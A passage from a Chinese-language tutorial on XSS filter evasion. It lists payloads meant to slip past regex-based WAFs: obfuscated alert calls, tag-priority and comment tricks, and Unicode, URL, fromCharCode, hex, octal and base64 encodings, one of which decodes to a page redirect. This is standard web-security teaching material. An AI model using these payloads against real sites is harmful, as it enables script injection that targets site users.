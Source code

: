 利用top

```
<script>top["al"+"ert"](`xss`);</script>
```

##### 其它字符混淆

有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了
下面举几个简单的例子

```
可利用注释、标签的优先级等
1.<<script>alert("xss");//<</script>
2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

##### 编码绕过

Unicode编码绕过

```
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">

<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">
```

url编码绕过

```
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
```

```
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

Ascii码绕过

```
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
```

hex绕过

```
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
```

八进制

```
<img src=x onerror=alert('\170\163\163')>
```

base64绕过

```
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
```
